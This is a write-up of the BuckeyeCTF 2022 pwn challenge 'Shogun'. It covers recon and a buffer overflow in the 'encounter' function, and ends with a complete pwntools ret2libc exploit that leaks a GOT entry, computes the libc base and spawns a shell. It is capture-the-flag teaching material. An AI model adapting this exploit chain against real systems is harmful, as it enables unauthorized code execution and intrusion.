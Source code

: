 * TOC
{:toc}

# Notice

This is currently just a hack note - aka, then notes I took on the challenge when I was playing. It will be flushed out into a full fleged writeup / walkthrough in the near future :)

This is a writeup about the 2022 BuckeyeCTF challenge `Shogun`

# BuckeyeCTF 2022 Shogun | Thomas Spencer

> Category: `pwn` | Difficulty: `medium`

> [Download original binary](/assets/binaries/shogun)

> [Download original source code](/assets/binaries/shogunOrigninal.c)

# Recon

## File

```
shogun: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0c6ef59275fd0386ecdccf02d6838d327ed11b61, for GNU/Linux 3.2.0, not stripped
```

## Checksec 

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no Canary means we'll likely have to ROP, perhaps ret2libc

# Functions

## scroll

* Will take a `char\*` as input.

* Will slowly print out the inputted string, one character at a time

## Encounter

* Prints out a string of story flavor text

* Takes user input

    * Obvious buffer overflow, size 32 buffer with size 81 read using `fgets()`

## main

* Prints some story text

* Takes in user input

    * Checks to see if start of user input is `"Look around."`

    * If it is not, we die

    * If it is, we enter `encounter`


# Vulnerabilites

* Buffer overflow in `encounter` function

    * Large enough to allow for ROP

* No canaries or PIE, meaning we can ROP without stack data leaks

# Plan of Attack

* `ret2libc` attack, because we have an easy stack overflow into ROP vector.

**ISSUE**: Normally for `ret2libc` ROP, we would use a `Puts(Puts)` to leak a GOT table entry to find out where `libc` is. However, there is no `puts` reference in the GOT of the binary.

Must use another means to leak information...

We can use the `scroll` function, since it acts like puts!

# Exploit

* ... enter `encounter` function

* ROP to leak a GOT entry with the `scroll` function

* Use the leak to perform a `ret2libc` and grab a shell

# Final Script

```python
#!/bin/env python3

from pwn import *

DEBUG = True
FILE = "./shogun"
HOST = "pwn.chall.pwnoh.io"
PORT = 13373

POP_RDI_RET = 0x401383
RET = 0x40101a
PUTCHAR_GOT = 0x403FC0
BINSH = 0x1b45bd

context.arch = "amd64"
context.encoding = "latin"
warnings.simplefilter("ignore")

elf = ELF(FILE)
rop = ROP(FILE)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p = process([FILE]) if (DEBUG) else remote(HOST, PORT)

BUFFER_SIZE = 0x20

print(p.recvuntil(b'disturbance. ').decode())
p.sendline(b'Look around.')
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(PUTCHAR_GOT)
payload += p64(elf.symbols["scroll"])
payload += p64(elf.symbols["_start"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.send(payload)

putCharPtr = p.recvuntil(b'You finally')[:6]
print(putCharPtr.hex())
putCharInt = int.from_bytes(putCharPtr, "little", signed=False)

libcBase = putCharInt - 0x86280

print(hex(putCharInt))

p.sendline(b'Look around.')
print(p.recvuntil(b'disturbance. ').decode())
print(p.clean().decode())
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(libcBase + BINSH)
payload += p64(libcBase + libc.symbols["system"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.sendline(payload)

p.interactive()

p.close()
```

